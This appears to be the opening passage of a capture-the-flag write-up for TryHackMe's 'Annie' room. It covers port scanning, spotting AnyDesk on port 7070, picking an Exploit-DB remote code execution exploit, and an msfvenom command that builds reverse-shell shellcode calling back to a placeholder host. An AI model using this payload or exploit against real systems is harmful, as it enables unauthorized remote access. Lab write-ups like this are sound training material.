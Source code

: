 https://tryhackme.com/room/annie

  ![image](https://user-images.githubusercontent.com/87700008/205995673-6be11335-a570-4cf0-9b72-a8829cf14cff.png)

Difficulty : Medium

**Initital Recon**:

Started with the quick rustscan, found 3 open ports :

    sudo rustscan -a 10.10.30.155 -- -sC -sV -T4 -vv -oN Annie_nmap
    Open 10.10.30.155:22
    Open 10.10.30.155:7070
    Open 10.10.30.155:33017
![image](https://user-images.githubusercontent.com/87700008/205996318-4065c13e-0675-48ef-85c8-c074b4befe3f.png)
![image](https://user-images.githubusercontent.com/87700008/205996442-54c654cf-20ec-488a-a3ba-215633d23693.png)

At the scan results I observed that there is AnyDesk client running on port **7070**. By looking at this I got some hint that tthis might be the point of initial access.

**Exploitation:**

I quckly searched for google with the AnyDesk 7070 exploit & got the results :
![image](https://user-images.githubusercontent.com/87700008/205997368-4f027e59-6d5b-42d1-841a-2b37990482e7.png)

Since, I don't have any version info I went with the first search result provied by exploit DB for version 5.5.2, ref : https://www.exploit-db.com/exploits/49613

This gave us the python exploit with Remote code execution : 
![image](https://user-images.githubusercontent.com/87700008/205998084-230664ca-cab9-4e28-b917-25c89e30c33b.png)

As per the exploit, we have to create our own shell code with msfvenom, so I created my own:

    msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
    
![image](https://user-images.githubusercontent.com/87700008/205999004-79da675d-5d3f-497d-a37f-943f488e95ff.png)

